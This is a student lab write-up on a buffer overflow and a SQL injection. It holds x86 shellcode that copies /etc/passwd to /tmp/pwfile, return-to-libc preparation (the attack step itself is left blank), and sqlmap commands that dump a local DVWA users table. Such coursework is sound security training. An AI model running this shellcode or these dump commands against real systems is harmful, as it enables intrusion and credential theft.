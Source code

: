 # Lab #1, 22110082, Nguyen Duc Tri, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

 **Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 
## 1. Create the assembly shell code named `shellcode.asm` and the given C code named `vuln.c`:
*Copy the assembly code above and save it in the assembly file:* <br> 

## 2. First, compile the Assembly ShellCode: 
*Use `nasm` to assemble the code into an object file:*

```sh
nasm -f elf32 -o shellcode.o shellcode.asm
```

*Link the object file to create an executable file using `ld`:* 

```sh
ld -m elf_i386 -o shellcode shellcode.o
```

*Observe the shellcode in machine format:* 

```sh
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
*The printed result shows a 97 bytes long:*

![image](https://github.com/user-attachments/assets/200af312-f8e9-436d-95af-dd62ac86c2a6)

*Create an environment variable:*

```sh
nasm -g -f elf shellcode.asm
ld -m elf_i386 -o shellcode shellcode.o
export exploit_path="/seclabs/boff/file_del"
```

![image](https://github.com/user-attachments/assets/1c8f9cbd-1e04-46ac-be88-221e0de33940)


## 3. Next, compile the C program: 
*Compile the C code using `gcc`:* <br> 

```sh
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```


## 4. Stack Frame Visualization: 
![image](https://github.com/user-attachments/assets/9a7f47b2-94da-4e3f-8255-f84f2c618f6f)

*The program has a vulnerability in the `strcpy` call, where an attacker can overflow the buffer variable in `main`. This allows us to overwrite the saved return address on the stack.* <br> 
*If we want to exploit: <b> 20 bytes(buffer + ebp) + system()  + exit() +  env_var <b> *

## 5. Prerequisite for the attack: 
*In this case, I will use a Return-to-lib-c attack* <br> 
*First, we need to know the address of 3 things I mentioned above, which are system(), exit() and environment variable" <br> 
*Load gdb using:* <br> 

```sh
gdb -q vuln.out
```

*Print out the addresses:* <br> 

![image](https://github.com/user-attachments/assets/8f7359ee-4c45-4ce0-9d8e-20634a285093)

```sh
print system
print sy
```

*The address of system() is: `0xf7e50db0`*  <br>
*The address of exit() is: `0xf7e449e0`* <br>
*The address of env_var is: `0xffffd8f3`* <br> 


## 6. Conduct an attack: 


**Conclusion: **

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases <br>
**Answer 1**: <br>
## 1. Identify the vulnerable URL: 
*Let proceed to the cookies when entering ID = 2* 

![image](https://github.com/user-attachments/assets/ef903365-d7e6-419e-9d59-59052b30ef77)

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"    
```

*Revealing the DVWA tables:*
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"  -D dvwa --tables 
```
![image](https://github.com/user-attachments/assets/0a43a875-621d-4dd9-bf8a-12ede9fa3cf2)


*Revealing the database schemas:*

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --schema --batch
```
![image](https://github.com/user-attachments/assets/ea59799d-ff40-45ed-be1a-a9a845666ea4)


**Question 2**: Use sqlmap to get tables, users information <br>
**Answer 2**: <br>
*To observe the users information within DVWA, we can use:* <br> 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --columns -T users --batch  
```
![image](https://github.com/user-attachments/assets/946a78a8-58b5-48a0-a967-63884a581622)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit <br>
**Answer 3**: <br> 
*Dump usernames and passwords: 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --dump -T users --batch
```
![image](https://github.com/user-attachments/assets/740644fb-bc79-4c46-b998-02535fe6b624)











